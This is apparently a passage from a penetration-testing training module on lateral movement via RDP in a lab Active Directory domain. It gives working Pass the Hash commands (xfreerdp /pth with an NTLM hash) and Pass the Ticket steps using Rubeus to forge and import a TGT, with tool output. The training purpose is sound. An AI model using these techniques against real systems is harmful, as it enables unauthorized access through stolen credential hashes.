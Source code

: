 Once we confirm `Restricted Admin Mode` is enabled, or if we can enable it, we can proceed to perform `Pass the Hash` or `Pass the Ticket` attacks with RDP.

To perform `Pass the Hash` from a Linux machine, we can use `xfreerdp` with the `/pth` option to use a hash and connect to RDP. Here's an example command:

  Remote Desktop Service (RDP)

```shell-session
BusySec@htb[/htb]$ proxychains4 -q xfreerdp /u:helen /pth:62EBA30320E250ECA185AA1327E78AEB /d:inlanefreight.local /v:172.20.0.52
[13:11:55:443] [84886:84887] [WARN][com.freerdp.crypto] - Certificate verification failure 'self-signed certificate (18)' at stack position 0
[13:11:55:444] [84886:84887] [WARN][com.freerdp.crypto] - CN = SRV02.inlanefreight.local
```

For `Pass the Ticket` we can use [Rubeus](https://github.com/GhostPack/Rubeus). We will forge a ticket using `Helen`'s hash. First we need to launch a sacrificial process with the option `createnetonly`:

  Remote Desktop Service (RDP)

```powershell-session
PS C:\Tools> .\Rubeus.exe createnetonly /program:powershell.exe /show
```

In the new PowerShell window we will use Helen's hash to forge a Ticket-Granting ticket (TGT):

  Remote Desktop Service (RDP)

```powershell-session
PS C:\Tools> .\Rubeus.exe asktgt /user:helen /rc4:62EBA30320E250ECA185AA1327E78AEB /domain:inlanefreight.local /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2

[*] Action: Ask TGT

[*] Using rc4_hmac hash: 62EBA30320E250ECA185AA1327E78AEB
[*] Building AS-REQ (w/ preauth) for: 'inlanefreight.local\helen'
[*] Using domain controller: fe80::711d:1399:b85a:50c5%9:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFrjCCBaqgAwIBBaEDAgEWooIEsTCCBK1hggSpMIIEpaADAgEFoRUbE0lOTEFORUZSRUlHSFQuTE9D
      ...SNIP...

[+] Ticket successfully imported!
...SNIP...
```
